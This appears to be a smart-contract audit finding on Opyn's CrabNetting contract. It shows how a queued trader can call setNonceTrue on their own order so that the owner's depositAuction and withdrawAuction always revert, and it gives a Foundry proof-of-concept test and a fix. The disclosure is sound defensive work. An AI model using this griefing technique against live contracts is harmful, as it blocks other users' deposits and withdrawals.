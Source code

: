 seyni

medium

# Anyone in the order queue wanting to withdraw or deposit can grief the auction by making `withdrawAuction` or `depositAuction` always revert

## Summary
Anyone in the order queue wanting to withdraw or deposit can purposely set his order's nonce to true to make any call to `withdrawAuction` or `depositAuction` revert.

## Vulnerability Detail
The `setNonceTrue` function allow anyone to set to `true` the nonce of one of his order.
[CrabNetting.sol#L234-L237](https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L234-L237)

```solidity
    function setNonceTrue(uint256 _nonce) external {
        nonces[msg.sender][_nonce] = true;
        emit NonceTrue(msg.sender, _nonce);
    }
```
`depositAuction` and `withdrawAuction` both check if the nonce of every queued order has already been used via `_checkOrder`. For instance in `depositAuction`:
[CrabNetting.sol#L491-L510](https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L491-L510)
```solidity
    function depositAuction(DepositAuctionParams calldata _p) external onlyOwner {
        _checkOTCPrice(_p.clearingPrice, false);
        /**
         * step 1: get eth from mm
         *     step 2: get eth from deposit usdc
         *     step 3: crab deposit
         *     step 4: flash deposit
         *     step 5: send sqth to mms
         *     step 6: send crab to depositors
         */
        uint256 initCrabBalance = IERC20(crab).balanceOf(address(this));
        uint256 initEthBalance = address(this).balance;


        uint256 sqthToSell = _debtToMint(_p.totalDeposit);
        // step 1 get all the eth in
        uint256 remainingToSell = sqthToSell;
        for (uint256 i = 0; i < _p.orders.length; i++) {
            require(_p.orders[i].isBuying, "auction order not buying sqth");
            require(_p.orders[i].price >= _p.clearingPrice, "buy order price less than clearing");
            _checkOrder(_p.orders[i]);
```
In `_checkOrder`, `_useNonce` is called:
[CrabNetting.sol#L455-L456](https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L455-L456)
```solidity
    function _checkOrder(Order memory _order) internal {
        _useNonce(_order.trader, _order.nonce);
```
In `_useNonce`, the nonce associated to a trader and an order is checked to be false before being used (set to true):
[CrabNetting.sol#L756-L759](https://github.com/sherlock-audit/2022-11-opyn/blob/main/crab-netting/src/CrabNetting.sol#L756-L759)
```solidity
    function _useNonce(address _trader, uint256 _nonce) internal {
        require(!nonces[_trader][_nonce], "Nonce already used");
        nonces[_trader][_nonce] = true;
    }
```

Therefore, if only one of the order already had its nonce set to true, the call to `depositAuction` or `withdrawAuction` will revert.

## Impact
The owner cannot proceed the queued deposit/withdraw as intended.
`depositAuction` and `withdrawAuction` will always revert.

## Code Snippet

PoC:
```solidity
    function testNonce() public {
        DepositAuctionParams memory p;
        // get the usd to deposit remaining
        p.depositsQueued = netting.depositsQueued();
        // find the eth value of it
        p.minEth = (_convertUSDToETH(p.depositsQueued) * 9975) / 10000;

        // lets get the uniswap price, you can get this from uniswap function in crabstratgegy itself
        uint256 sqthPrice = (_getSqthPrice(1e18) * 988) / 1000;
        // get the vault details
        (,, uint256 collateral, uint256 debt) = crab.getVaultDetails();
        // get the total deposit
        uint256 toMint;
        (p.totalDeposit, toMint) = _findTotalDepositAndToMint(p.minEth, collateral, debt, sqthPrice);
        // --------
        // then write a test suite with a high eth value where it fails
        bool trade_works = _isEnough(p.minEth, toMint, sqthPrice, p.totalDeposit);
        require(trade_works, "depositing more than we have from sellling");

        //@audit order from mm1 (nonce == 0)
        Order memory order1 = Order(0, mm1, toMint - 1e18, (sqthPrice * 1005) / 1000, true, block.timestamp, 0, 1, 0x00, 0x00);

        Sign memory s1;
        (s1.v, s1.r, s1.s) = vm.sign(mm1Pk, sig.getTypedDataHash(order1));
        order1.v = s1.v;
        order1.r = s1.r;
        order1.s = s1.s;

        //@audit order from mm2 (nonce == 1)
        Order memory order2 = Order(0, mm2, toMint - 1e18, (sqthPrice * 1005) / 1000, true, block.timestamp, 1, 1, 0x00, 0x00);

        Sign memory s2;
        (s2.v, s2.r, s2.s) = vm.sign(mm2Pk, sig.getTypedDataHash(order2));
        order2.v = s2.v;
        order2.r = s2.r;
        order2.s = s2.s;

        orders.push(order1);
        orders.push(order2);
        vm.prank(mm1);
        netting.setNonceTrue(0); //@audit user mm1 setting manually nonce to true right before withdrawAuction or depositAuction call by owner

        //@audit for loop present in withdrawAuction or depositAuction which will revert if any order's nonce is already set to true.
        vm.expectRevert("Nonce already used"); //@audit will revert at first call to checkOrder
        for (uint256 i = 0; i < orders.length; i++) {
            netting.checkOrder(orders[i]);
        }
    }
```

## Tool used

Manual Review, Foundry

## Recommendation
Remove `setNonceTrue` and add a mecanism to allow owner to remove an order if needed.
